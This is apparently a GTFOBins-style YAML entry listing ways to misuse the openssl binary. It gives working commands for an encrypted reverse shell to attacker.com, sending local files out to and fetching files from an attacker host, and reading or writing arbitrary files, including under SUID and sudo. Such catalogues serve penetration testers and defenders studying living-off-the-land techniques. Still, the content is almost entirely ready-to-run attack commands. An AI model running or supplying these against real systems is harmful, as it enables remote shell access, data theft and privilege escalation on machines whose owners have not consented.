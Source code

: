 ```yaml
---
functions:
  reverse-shell:
    - description: |
        To receive the shell run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345

        Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  file-upload:
    - description: |
        To collect the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save

        Send a file to a TCP port, transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT < "$LFILE"
  file-download:
    - description: |
        To send the file run the following on the attacker box:

            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send

        Fetch a file from a TCP port, transmission will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        openssl enc -in "$TF" -out "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        openssl enc -in "$LFILE"
  suid:
    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_write
        echo DATA | sudo openssl enc -out "$LFILE"
---
```

